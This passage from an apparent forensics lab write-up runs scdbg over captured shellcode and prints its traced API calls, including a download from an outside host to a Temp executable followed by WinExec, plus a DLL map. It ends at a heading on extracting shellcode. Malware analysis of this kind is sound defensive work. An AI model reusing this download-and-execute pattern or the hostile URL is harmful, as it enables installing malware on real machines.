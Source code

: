 
Command 2:

```c
C:\Users\husky\Desktop\CCD_NetworkForensicsLabs\Windows>scdbg.exe /f directshow-shellcode
```


Output:

![](/assets/img/Pasted image 20240809135552.png)


Functions found in the shellcode analysis:

```c
401086  GetTempPathA(len=88, buf=12fd80) = 22
4010b0  LoadLibraryA(urlmon.dll)
4010ca  URLDownloadToFileA(http://sploitme.com.cn/fg/load.php?e=4ⁿ♀, C:\Users\husky\AppData\Local\Temp\e.exe)
4010d7  WinExec(C:\Users\husky\AppData\Local\Temp\e.exe)
4010e0  ExitThread(0)
```


DLL dependencies:

Command->
```c
scdbg.exe /dllmap directshow-shellcode
```

![](/assets/img/Pasted image 20240809143808.png)


List of DLLs:

```c
kernel32 Dll mapped at 7c800000 - 7c8f6000  Version: 5.1.2600.5781
ntdll    Dll mapped at 7c900000 - 7c9b2000  Version: 5.1.2600.5755
ws2_32   Dll mapped at 71ab0000 - 71ac7000  Version: 5.1.2600.5512
iphlpapi Dll mapped at 76d60000 - 76d79000  Version: 5.1.2600.5512
user32   Dll mapped at 7e410000 - 7e4a1000  Version: 5.1.2600.5512
shell32  Dll mapped at 7c9c0000 - 7d1d7000  Version: 6.0.2900.6018
msvcrt   Dll mapped at 77c10000 - 77c68000  Version: 7.0.2600.5512
urlmon   Dll mapped at 78130000 - 78258000  Version: 7.0.6000.17096
wininet  Dll mapped at 3d930000 - 3da01000  Version: 7.0.6000.17093
shlwapi  Dll mapped at 77f60000 - 77fd6000  Version: 6.0.2900.5912
advapi32 Dll mapped at 77dd0000 - 77e6b000  Version: 5.1.2600.5755
shdocvw  Dll mapped at 7e290000 - 7e401000  Version: 6.0.2900.5512
psapi    Dll mapped at 76bf0000 - 76bfb000  Version: 5.1.2600.5512
imagehlp Dll mapped at 76c90000 - 76cb9000  Version: 5.1.2600.6479
winhttp  Dll mapped at 4d4f0000 - 4d549000  Version: 5.1.2600.6175
```




### Extracting the Shellcode on `com()` function:
